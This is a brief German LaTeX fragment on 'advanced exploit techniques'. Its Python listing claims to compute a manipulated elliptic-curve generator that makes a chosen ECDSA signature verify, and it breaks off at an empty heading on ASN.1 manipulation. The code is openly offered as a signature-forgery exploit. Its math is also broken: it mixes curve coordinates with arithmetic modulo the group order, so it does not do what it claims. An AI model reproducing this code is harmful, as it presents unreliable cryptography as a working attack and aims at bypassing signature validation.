 \documentclass{article}
\begin{document}
\subsection{Erweiterte Exploit-Techniken}

\subsubsection{Mathematische Präzisions-Manipulation}

\begin{lstlisting}[language=python, caption=Praezise Parameter-Berechnung]
def calculate_exploit_parameters(target_r, target_s, message_hash):
    """
    Berechnet manipulierte Parameter fuer gewuenschte Signatur-Validierung
    """
    # Ziel: Finde G' so dass u1*G' + u2*Q = (target_r, y) fuer beliebiges y
    
    # s_inv berechnen
    s_inv = pow(target_s, -1, ORDER)
    
    # u1, u2 berechnen  
    u1 = (message_hash * s_inv) % ORDER
    u2 = (target_r * s_inv) % ORDER
    
    # Neuen Generator berechnen der gewuenschtes Ergebnis liefert
    # Dies ist eine vereinfachte Darstellung der komplexen Mathematik
    
    manipulated_gx = (target_r - u2 * PUBLIC_KEY_X) * pow(u1, -1, ORDER) % ORDER
    manipulated_gy = calculate_curve_point_y(manipulated_gx)
    
    return manipulated_gx, manipulated_gy

def calculate_curve_point_y(x, a=CURVE_A, b=CURVE_B, p=CURVE_P):
    """Berechnet y-Koordinate fuer gegebenen x-Wert auf elliptischer Kurve"""
    y_squared = (pow(x, 3, p) + a * x + b) % p
    y = pow(y_squared, (p + 1) // 4, p)  # Vereinfacht fuer p = 3 (mod 4)
    return y
\end{lstlisting}

\subsubsection{ASN.1-Struktur-Manipulation}
\end{document}

